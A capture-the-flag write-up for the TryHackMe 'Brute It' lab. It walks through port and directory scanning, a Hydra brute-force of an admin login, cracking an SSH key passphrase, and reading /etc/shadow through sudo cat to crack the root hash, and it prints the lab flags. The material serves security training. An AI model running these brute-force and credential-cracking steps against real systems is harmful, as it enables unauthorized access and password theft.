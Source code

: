 # Brute It

> Platform: TryHackMe
>
> Created by: [ReddyyZ](https://tryhackme.com/p/ReddyyZ)
>
> Difficulty: Easy

## Enumeration

First of all, we will begin with the **Nmap**. Actually, you can just use a normal Nmap command, but here is my preferences.
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brute It]
└─$ nmap -sVSC <TARGET-IP> -T4 -Pn -n -vvv -oA bruteitscan
Nmap scan report for <TARGET-IP>
Host is up, received user-set (0.26s latency).
Scanned at 2025-08-28 19:41:37 +08 for 19s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDddsKhK0u67HTcGJWVdm5ukT2hHzo8pDwrqJmqffotf3+4uTESTdRdr2UgZhPD5ZAvVubybTc5HSVOA+CQ6eWzlmX1LDU3lsxiWEE1RF9uOVk3Kimdxp/DI8ILcJJdQlq9xywZvDZ5wwH+zxGB+mkq1i8OQuUR+0itCWembOAj1NvF4DIplYfNbbcw1qPvZgo0dA+WhPLMchn/S8T5JMFDEvV4TzhVVJM26wfBi4o0nslL9MhM74XGLvafSa5aG+CL+xrtp6oJY2wPdCSQIFd9MVVJzCYuEJ1k4oLMU1zDhANaSiScpEVpfJ4HqcdW+zFq2YAhD1a8CsAxXfMoWowd
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMPHLT8mfzU6W6p9tclAb0wb1hYKmdoAKKAqjLG8JrBEUZdFSBnCj8VOeaEuT6anMLidmNO06RAokva3MnWGoys=
|   256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEoIlLiatGPnlVn/NBlNWJziqMNrvbNTI5+JbhICdZ6/
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

From the **Nmap** results, looks like the port <code>80</code> and port <code>22</code> are open.
![img](webpage.png)

Now try to **enumerate the web directory** of the page **using GoBuster**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/bruteit]
└─$ gobuster dir -u http://<TARGET-IP>/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<TARGET-IP>/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/admin                (Status: 301) [Size: 314] [--> http://<TARGET-IP>/admin/]
/index.html           (Status: 200) [Size: 10918]
/server-status        (Status: 403) [Size: 278]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

When going to the <code>/admin</code> page, we found out that the page shows us that we need to login before continuing to the page.

![img](admin.png)

Viewing the page source will reveal the name of the user that we need to brute-force for the password.

## Exploitation

We need to try **brute-force the password** for the user:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/bruteit]
└─$ hydra -l <USER> -P /usr/share/wordlists/rockyou.txt <TARGET-IP> http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-28 20:08:37
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://<TARGET-IP>:80/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid
[80][http-post-form] host: <TARGET-IP>   login: <USERNAME>   password: <USER-PASS>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-28 20:09:22
```

Now, try to login to the page. We found out that, there is a **RSA private key** file that we can retrieved:

![img](idrsa.png)

We need to crack the key to get the passphrase to be used when SSH to the server:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brute It]
└─$ ssh2john bruteitid_rsa > ssh.key              
                                                                                             
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brute It]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt ssh.key      
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<PASSPHRASE>       (bruteitid_rsa)     
1g 0:00:00:00 DONE (2025-08-28 20:14) 50.00g/s 3632Kp/s 3632Kc/s 3632KC/s saloni..rashon
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

With the cracked passphrase, now we can SSH to the server:
```
┌──(kali㉿kali)-[~/.ssh]
└─$ ssh john@<TARGET-IP> -i bruteit_id_rsa 
The authenticity of host '<TARGET-IP> (<TARGET-IP>)' can't be established.
ED25519 key fingerprint is SHA256:kuN3XXc+oPQAtiO0Gaw6lCV2oGx+hdAnqsj/7yfrGnM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '<TARGET-IP>' (ED25519) to the list of known hosts.
Enter passphrase for key 'bruteit_id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Aug 28 12:17:58 UTC 2025

  System load:  0.06               Processes:           109
  Usage of /:   25.7% of 19.56GB   Users logged in:     0
  Memory usage: 22%                IP address for ens5: <TARGET-IP>
  Swap usage:   0%


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from <IP>
john@bruteit:~$
```

<details>
<summary><b>🏳️user.txt</b></summary>
<b>THM{a_password_is_not_a_barrier}</b>
</details><br>

## Privilege Escalation

Moving on to **escalate our privileges to root**. We need to find what can we leverage to spawn a privilege shell.

First we try to check with the **sudo permission** first
```
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

We can try use the cat to read file that we are not able to read as normal user. From [GTFOBins | cat](https://gtfobins.github.io/gtfobins/cat/), we can try read the <code>/etc/shadow</code> file to get the root password hash:
```
john@bruteit:~$ sudo cat /etc/shadow
root:<PASSWORD-HASH>:18490:0:99999:7:::
daemon:*:18295:0:99999:7:::
.
.
.

john@bruteit:~$
```

Also retrieve the <code>/etc/passwd</code> file to brute-force the root password:
```
john@bruteit:~$ sudo cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
.
.
.

john@bruteit:~$
```

Then, retrieve both files and crack the hash:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brute It]
└─$ echo 'root:<PASSWORD-HASH>:18490:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
.
.
. > shadow.txt

┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brute It]
└─$ echo 'root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
.
.
. > passwd.txt

┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brute It]
└─$ unshadow passwd.txt shadow.txt > passwords.txt
                                                                                             
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brute It]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<ROOT-PASSWORD>         (root)     
```

Now, just change the current user to root to get the privileged shell:
```
john@bruteit:~$ su -
Password: 
root@bruteit:~#
```

<details>
<summary><b>🏳️root.txt</b></summary>
<b>THM{pr1v1l3g3_3sc4l4t10n}</b>
</details><br>